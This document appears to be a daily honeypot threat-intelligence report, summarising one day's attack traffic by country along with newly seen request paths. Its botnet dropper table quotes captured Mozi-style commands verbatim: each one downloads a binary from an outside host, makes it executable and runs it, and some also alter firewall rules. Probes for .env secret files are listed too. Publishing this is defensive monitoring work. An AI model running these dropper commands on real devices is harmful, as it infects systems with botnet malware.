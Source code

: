 ```yaml
---
title: "Report: 2025-06-12 "
date: 2025-06-12
desciption: "Report: 2025-06-12" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-12 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 8 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 711 requests were recorded during the day, originating from 5 different countries, with a peak of 236 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| KR               | Germany            |
| US               | Germany            |
| DE               | Germany            |
| US               | Germany            |
| US               | Germany            |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|:----------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 122.97.136.89   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                                                                |
| 77.239.215.53   | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                           |
| 141.98.11.147   | GET /shell?cd+/tmp;iptables+-I+INPUT+-p+tcp+-s+141.98.11.147+--dport+5500+-j+ACCEPT;+iptables+-I+INPUT+-p+tcp+--dport+5500+-j+DROP;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/x86;chmod+777+*;./x86+x86;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm7;chmod+777+*;./arm7+arm7;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm4;chmod+777+*;./arm4+arm4;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm5;chmod+777+*;./arm5+arm5 HTTP/1.1 |
| 141.98.11.83    | GET /shell?cd+/tmp;iptables+-I+INPUT+-p+tcp+-s+141.98.11.147+--dport+5500+-j+ACCEPT;+iptables+-I+INPUT+-p+tcp+--dport+5500+-j+DROP;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/x86;chmod+777+*;./x86+x86;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm7;chmod+777+*;./arm7+arm7;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm4;chmod+777+*;./arm4+arm4;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm5;chmod+777+*;./arm5+arm5 HTTP/1.1 |
| 103.167.204.132 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                                                                |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                               |
|----:|----------------------:|:------------------------------------------------------|
|  46 |                     2 | GET /aws.sh HTTP/1.1                                  |
| 103 |                     1 | GET /en/turkish-english HTTP/1.1                      |
| 178 |                     1 | GET /t.env HTTP/1.1                                   |
| 179 |                     1 | GET /o.env HTTP/1.1                                   |
| 180 |                     1 | GET /v.env HTTP/1.1                                   |
| 181 |                     1 | GET /s.env HTTP/1.1                                   |
| 198 |                     1 | HEAD /phpMyAdmin-2.5.7-pl1/scripts/setup.php HTTP/1.1 |
| 211 |                     1 | HEAD /sqlweb/scripts/setup.php HTTP/1.1               |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   236 | US                 |
|  1 |                    74 | NL                 |
|  2 |                    63 | IN                 |
|  3 |                    47 | BG                 |
|  4 |                    44 | GB                 |
|  5 |                    31 | LT                 |
|  6 |                    31 | DE                 |
|  7 |                    26 | RU                 |
|  8 |                    25 | CN                 |
|  9 |                    15 | PL                 |
| 10 |                    13 | SC                 |
| 11 |                    12 | FR                 |
| 12 |                    12 | NG                 |
| 13 |                    11 | SE                 |
| 14 |                     7 | CA                 |
| 15 |                     6 | ZA                 |
| 16 |                     6 | AO                 |
| 17 |                     4 | KR                 |
| 18 |                     4 | GH                 |
| 19 |                     4 | VN                 |
| 20 |                     4 | BR                 |
| 21 |                     4 | SG                 |
| 22 |                     3 | HK                 |
| 23 |                     3 | UA                 |
| 24 |                     3 | KZ                 |
| 25 |                     3 | BE                 |
| 26 |                     2 | ES                 |
| 27 |                     2 | PT                 |
| 28 |                     2 | TW                 |
| 29 |                     2 | MC                 |
| 30 |                     2 | IT                 |
| 31 |                     2 | KW                 |
| 32 |                     2 | TH                 |
| 33 |                     1 | TR                 |
| 34 |                     1 | CO                 |
| 35 |                     1 | ID                 |
| 36 |                     1 | RO                 |
| 37 |                     1 | IR                 |
| 38 |                     1 | IE                 |

